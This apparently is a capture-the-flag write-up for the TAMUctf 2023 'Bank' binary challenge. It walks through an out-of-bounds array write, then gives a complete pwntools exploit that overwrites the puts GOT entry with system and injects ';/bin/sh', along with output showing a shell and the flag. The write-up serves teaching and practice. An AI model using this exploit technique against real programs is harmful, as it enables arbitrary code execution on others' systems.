```yaml
---
title: "TAMUctf 2023"
date: 2023-05-01T13:26:08+10:00
draft: false
tags: ['pwn']
---
```


# Bank

We're given three files.
    - bank (ELF 64-bit)
    - bank.c
    - libc.so.6

Looks like we're going to have to ret2libc at some point so lets see where that's going to happen. Below is the source from `bank.c`.
```c
#include <stdio.h>

long accounts[100];
char exit_msg[] = "Have a nice day!";

void deposit() {
    int index = 0;
    long amount = 0;
    puts("Enter the number (0-100) of the account you want to deposit in: ");
    scanf("%d", &index);
    puts("Enter the amount you want to deposit: ");
    scanf("%ld", &amount);
    accounts[index] += amount;
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    deposit();
    deposit();
    puts(exit_msg);
}
```
Okay, it's pretty short. First thing I notice is that the `deposit()` function gives us write capabilities with a bit of a catch. So take a look at these lines in particular.
```c
    puts("Enter the number (0-100) of the account you want to deposit in: ");
    scanf("%d", &index);
    puts("Enter the amount you want to deposit: ");
    scanf("%ld", &amount);
    accounts[index] += amount;
```
So we can give an arbitrary 'account number' and 'amount' which will be used to index and add to the array respectively. That means we can provide an integer offset to any address and add some amount to the value stored at that location.
Before we get to excited lets `checksec` the binaries we were given.
```zsh
└─$ checksec --file=bank       
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols        No    0               0               bank

└─$ checksec --file=libc.so.6  
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    DSO             No RPATH   No RUNPATH   No Symbols        Yes   79              170             libc.so.6
```
The notable missing protections are `RELRO` and `PIE` on the `bank` binary. That means there's no address randomisation and we can freely overwrite GOT entries.
So the plan is straight forward from here.
    1. Find the GOT entry that points to `puts` in libc (We know there's an entry for `puts` since the binary uses it and there's no PIE so we just have to check the binary for where that entry is)
    2. Use `deposit()` to add whatever offset we need to get to a function like `system()`
The only issue now is that we need to pass a command to `system()` when it gets called. I think the best option would be to overwrite a string that `puts()` uses to include `;/bin/sh`. Luckily there's an exit message that gets defined in the `bank` binary and is called at the end of the program.
```c
#include <stdio.h>

long accounts[100];
char exit_msg[] = "Have a nice day!";

//...snip...

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    deposit();
    deposit();
    puts(exit_msg);
}
```
Sweet, so we'll use the first `deposit()` call to modify the `exit_msg` to include `;/bin/sh` and the second one to overwrite the GOT entry for `puts` to point to `system`.
We can script that using pwntools, as shown below.
```python
from pwn import *

io = remote("tamuctf.com", 443, ssl=True, sni="bank")
elf = ELF('./bank')
libc = ELF('./libc.so.6')

def puts_to_system():
    gotputs_off = (elf.got['puts']-elf.symbols['accounts'])//8 # Find the offset we need to index in the array based on the location of our 'accounts' array.
    log.success("Calculated offset " + str(hex(gotputs_off)) + ' : ' + str(hex(elf.symbols['accounts'])) + ' - ' + str(hex(elf.got['puts']))) # Log our calculations.
    io.sendline(bytes(str(gotputs_off),'ascii')) # Send the index
    io.sendline(bytes(str(libc.symbols['system']-libc.symbols['puts']),'ascii')) # Send the offset between puts and system in libc

def corrupt_exitmsg():
    exitmsg_addr = next(elf.search(b'Have a nice day!')) # Find the address of the exit message in the bank binary
    log.success("Exit message string found at " + str(hex(exitmsg_addr)))
    exitmsg_off = (exitmsg_addr-elf.symbols['accounts']+0x10)//8 # Calculate the index in the array that will land us at the exitmsg in memory, we add 0x10 to get to the end of the string. We overwrite the null byte at the end of the string.
    io.sendline(bytes(str(exitmsg_off),'ascii')) # Send the index
    io.sendline((str(u64(b';/bin/sh'.ljust(8,b'\x00'))))) # Send the ';/bin/sh' string as an integer with null bytes to terminate the string. Note that in memory there were null bytes after the string, so when we send our integer it is equivelent to just writing whatever we want.

corrupt_exitmsg() # Corrupt the message
puts_to_system() # Change puts GOT entry to point to system

io.interactive()
```
Running that, we get a shell and the flag.
```zsh
└─$ python3 solver-template.py      
[+] Opening connection to tamuctf.com on port 443: Done
[+] Calculated offset -0x10 : 0x403460 - 0x4033e0
[*] Switching to interactive mode
Enter the number (0-100) of the account you want to deposit in: 
Enter the amount you want to deposit: 
Enter the number (0-100) of the account you want to deposit in: 
Enter the amount you want to deposit: 
sh: 1: Have: not found
$ ls
bank
docker_entrypoint.sh
flag.txt
$ cat flag.txt
gigem{a_v3ry_h3fty_d3p0s1t}
```
> gigem{a_v3ry_h3fty_d3p0s1t}
